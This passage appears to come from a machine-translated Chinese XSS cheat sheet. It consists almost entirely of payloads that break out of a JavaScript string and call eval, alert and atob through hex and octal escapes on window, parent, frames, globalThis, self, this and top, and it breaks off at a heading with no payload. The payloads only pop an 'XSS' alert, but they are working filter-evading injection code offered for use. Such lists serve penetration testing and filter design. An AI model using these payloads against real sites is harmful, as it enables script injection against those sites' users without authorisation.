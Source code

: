 #### **XSS 成 JavaScript 字符串:十六进制转义序列和 base64 编码字符串(父级)**

```
';parent['\x65\x76\x61\x6c']('parent["\x61\x6c\x65\x72\x74"](parent["\x61\x74\x6f\x62"]("WFNT"))');//
```

#### **XSS 成 JavaScript 字符串:十六进制转义序列和 base64 编码字符串(帧)**

```
';frames['\x65\x76\x61\x6c']('frames["\x61\x6c\x65\x72\x74"](frames["\x61\x74\x6f\x62"]("WFNT"))');//
```

#### **XSS 成 JavaScript 字符串:十六进制转义序列和 base64 编码字符串(globalThis)**

```
';globalThis['\x65\x76\x61\x6c']('globalThis["\x61\x6c\x65\x72\x74"](globalThis["\x61\x74\x6f\x62"]("WFNT"))');//
```

#### **XSS 转换成 JavaScript 字符串:八进制转义序列(窗口)**

```
';window['\141\154\145\162\164']('\130\123\123');//
```

#### **XSS 转换成 JavaScript 字符串:八进制转义序列(self)**

```
';self['\141\154\145\162\164']('\130\123\123');//
```

#### **XSS 转换成 JavaScript 字符串:八进制转义序列(this)**

```
';this['\141\154\145\162\164']('\130\123\123');//
```

#### **XSS 转换成 JavaScript 字符串:八进制转义序列(上)**

```
';top['\141\154\145\162\164']('\130\123\123');//
```

#### **XSS 转换成 JavaScript 字符串:八进制转义序列(父序列)**

```
';parent['\141\154\145\162\164']('\130\123\123');//
```

#### **XSS 转换成 JavaScript 字符串:八进制转义序列(帧)**

```
';frames['\141\154\145\162\164']('\130\123\123');//
```

#### **XSS 转换成 JavaScript 字符串:八进制转义序列(globalThis)**
